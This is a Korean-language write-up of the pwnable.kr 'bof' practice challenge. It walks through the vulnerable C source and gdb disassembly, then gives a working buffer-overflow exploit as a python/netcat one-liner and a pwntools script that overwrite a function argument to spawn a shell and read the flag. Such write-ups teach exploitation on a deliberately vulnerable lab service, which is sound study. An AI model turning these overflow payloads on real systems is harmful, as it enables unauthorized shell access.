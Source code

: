 ```yaml
---
title: "[pwnable.kr][Toddler] bof"
tags: [pwnable.kr, Toddler's Bottle, writeup]
author: eli_ez3r
key: 20180913
modify_date: 2018-09-13
article_header:
  type: cover
  image:
    src: /assets/img/write-up/pwnable_kr.png
---
```


## keyword : Stack Canary

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

### 0x01. Staic Analysis

main에서 func함수를 호출하는데 인자 값으로 `0xdeadbeef`값을 전달한다.

func 함수에서 key값으로 `0xdeadbeef`를 받고, 사용자로 부터 입력 값을 받아 `overflowme` 배열에 저장한다.

**이때 overflowme배열은 32byte크기지만, gets함수로 입력을 받아 buffer overflow가 발생한다.**

그리고 key값이 `0xcafebabe` 인지 체크하고 맞으면 쉘을 실행한다.

즉, buffer overflow를 시켜 func함수의 인자 값을 `0xcafebabe`로 변조하면 문제가 풀린다.

-----

### 0x02. Dynamic Analysis

이제 func함수의 인자 값이 들어가는 스택 주소와, overflowme 배열의 주소의 거리를 구해야한다.

```
gdb-peda$ pdisas func
Dump of assembler code for function func:
   0x0000062c <+0>:     push   ebp
   0x0000062d <+1>:     mov    ebp,esp
   0x0000062f <+3>:     sub    esp,0x48
   0x00000632 <+6>:     mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:    call   0x645 <func+25>
   0x00000649 <+29>:    lea    eax,[ebp-0x2c]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   0x650 <func+36>
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:    jne    0x66b <func+63>
   0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:    call   0x665 <func+57>
   0x00000669 <+61>:    jmp    0x677 <func+75>
   0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:    call   0x673 <func+71>
   0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:    je     0x688 <func+92>
   0x00000683 <+87>:    call   0x684 <func+88>
   0x00000688 <+92>:    leave
   0x00000689 <+93>:    ret
End of assembler dump.
```

`func+29` 부분을 보면 oeverflowme 배열의 주소를 eax에 저장하는데, `overflowme` 배열의 주소는 `ebp-0x2c` 이다. (0x2c = 44)

그리고 `func+40` 부분을 보면 func함수의 인자 값과 `0xcafebabe`와 비교하는데 인자 값의 주소는 `ebp+0x8` 이다.

**따라서 overflowme 배열과 key값(func함수의 인자 값)의 주소의 거리는 52byte가 된다.**

-----

### 0x03. Exploit

그럼 이제 52byte의 쓰레기 값을 넣고, `0xcafebabe` 값을 넣어 `0xdeadbeef` 값을 변조시키자.

```
root@ubuntu:~/pwnable/bof# (python -c 'print "A"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
cat flag
daddy, I just pwned a buFFer :)
```

끄읏 :)

-----

##### python

```python
from pwn import *

conn = remote("pwnable.kr", 9000)

payload = "A"*52
payload += p32(0xcafebabe)

conn.sendline(payload)
conn.interactive()
```

```
root@ubuntu:~/pwnable/bof# python ex.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls -l
total 3748
-r-xr-x--- 1 root bof     7348 Sep 12  2016 bof
-rw-r--r-- 1 root root     308 Oct 23  2016 bof.c
-r--r----- 1 root bof       32 Jun 11  2014 flag
-rw------- 1 root root 3812010 Nov 14 21:45 log
-rw-r--r-- 1 root root       0 Oct 23  2016 log2
-rwx------ 1 root root     760 Sep 11  2014 super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```

-----